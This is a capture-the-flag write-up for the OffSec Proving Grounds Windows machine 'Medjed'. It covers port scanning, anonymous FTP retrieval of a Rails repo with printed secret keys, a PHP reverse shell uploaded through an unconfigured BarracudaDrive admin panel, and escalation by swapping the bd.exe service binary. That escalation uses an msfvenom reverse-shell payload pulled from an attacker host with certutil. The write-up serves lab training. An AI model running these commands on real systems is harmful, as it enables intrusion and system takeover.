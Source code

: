 # Medjed
* Origin: Proving Grounds (OffSec)
* Difficulty: Intermediate
* OS: Windows

## Enumeration
Ran a quick rustscan to get an idea of what we're dealing with.
```
rustscan -a 192.168.230.127
```
![](img/rustscan.png)

A bunch of microsoft service related ports, mysql server, and http server are the obvious standouts. The higher number ports are a bit unfamiliar. Port 49664 and up are Microsoft related, but 30021, 33033, 44330, 45332, and 45443 might need a bit more investigation.

Navigating to the web server on port 8000 we are greeted by this beauty:

![](img/barracuda_home.png)

BarracudaDrive CMS default page. The about tab says the version is 6.5. Clicking on the config wizard link we are prompted to set up an admin account, implying this must be a fresh installation which was never properly set up.

![](img/barracuda_admin_setup.png)

Upon creating an admin account we have the ability to upload files to the web-file-server, create new pages, and upload images. It also looks like there's a possible privilege escalation vector for this version of BarracudaDrive, described [here](https://www.exploit-db.com/exploits/48789), but we need initial access before we can do anything with that. Coming back to this after investigating some of the other ports.

Tried enumerating the mysql server using msf aux payloads.
```
auxiliary/scanner/mysql/mysql_version
auxiliary/admin/mysql/mysql_enum
```
Wasn't able to get anything useful.

I noticed ports 30021 and port 3306 were unfamiliar to me, so ran a nmap scan targeting them
```
nmap -A -p 30021,33033 192.168.230.127
```
![](img/nmap_altports.png)

Looks like port 30021 is running a ftp server with anonymous logon enabled and port 33033 is running a web server.

Downloaded what appears to be a git repo from the ftp server.
```
wget -m ftp://anonymous:anonymous@192.168.230.127:30021
```
Looks like it's some kind of skeleton for a Ruby on Rails server. Not sure if they're just default settings but found potentially useful secrets in config/secrets.yaml.
```
development:
  secret_key_base: 36c569c923cac0e10cddd6588b468d09e82eb8a3a25cee7274f1a6680fb0cb19f6c1a64cad5c57923aa4b89675315c9202a5ff8db67f84a150668d6949cc0846

test:
  secret_key_base: be9463a08fe11dd60d1ff4bd361392f994f5365445b6685b86ac65fa08d1a2c8772068af773f31b758475849117a231dc51ac60f3a937539ceff9dc3a3668c48
```
Didn't find anything else immediately useful so shifted attention to the web server on port 33033. The home page has a list of employees with potentially useful usernames to spray, as well as a link to a login page.

![](img/port33033home.png)

Initial directory fuzzing found a page at /assets. Visiting it causes an error which potentially provides useful info. It looks like the git repo is potentially the skeleton for this site since they both run on Ruby.

![](img/ruby_error.png)

Did a few quick checks on the services running on the higher ports, found 45332 and 45443 are running a quiz app.

## Initial Access Through BarracudaDrive
Exploring the BarracudaDrive server further, it looks like the web-file-server at /fs allows us to view and upload files to the host's C drive. Navigating around, the C/xampp/htdocs directory looks like at hosts the files for the quiz on ports 45332 and 45443. Upon attempting to upload a test.txt file, we get an error saying the name is invalid. This likely means the extension is disallowed. There is a phpinfo.php file already in this directory, so php support must exist. Uploading a test.php file works and we're able to access it when visiting the url.

![](img/quiz_dir.png)

From here, trying to get a php reverse shell might be useful. After setting up a netcat listener, uploading the php reverse shell file from [here](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php), and visiting the url for the php file on port 45332, we get a shell as the user jerren.

![](img/php_rev_shell.png)

## Privilege Escalation
The PE PoC for BarracudaDrive v6.5 mentioned during enumeration takes advantage of insecure file permissions for the bd service in C:\bd\bd.exe. If we swap the bd.exe file for another with the same name and restart the system, we can execute whatever code we want as an admin beacause the bd service runs with system level privileges by default.

Check our initial user privileges:
```
whoami /priv
```

![](img/privs.png)

Verify we have the proper file permissions:
```
icacls C:\bd\bd.exe
```
![](img/bd_perms.png)

(The M permission for authenticated users shows us we can modify the exe)

Verify the service exists:
```
sc qc bd
```

![](img/verify_service.png)

Looks like we have the proper conditions. First rename the orginal bd.exe to something else as a backup.

Using msfvenom to create a reverse shell as our new exe:
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.x.x lport=445 -f exe -o bd.exe
```
Serve with a python server from attacking machine, download on target host:
```
(kali) python3 -m http.server 80
(target) certutil -urlcache -f http://<attacker IP>/bd.exe bd.exe
```
After setting up a listener for the incoming reverse shell we can restart the computer.
```
shutdown /r -t 5
```
Wait a few seconds for reboot and we get a reverse shell with system level privileges.

![](img/root.png)


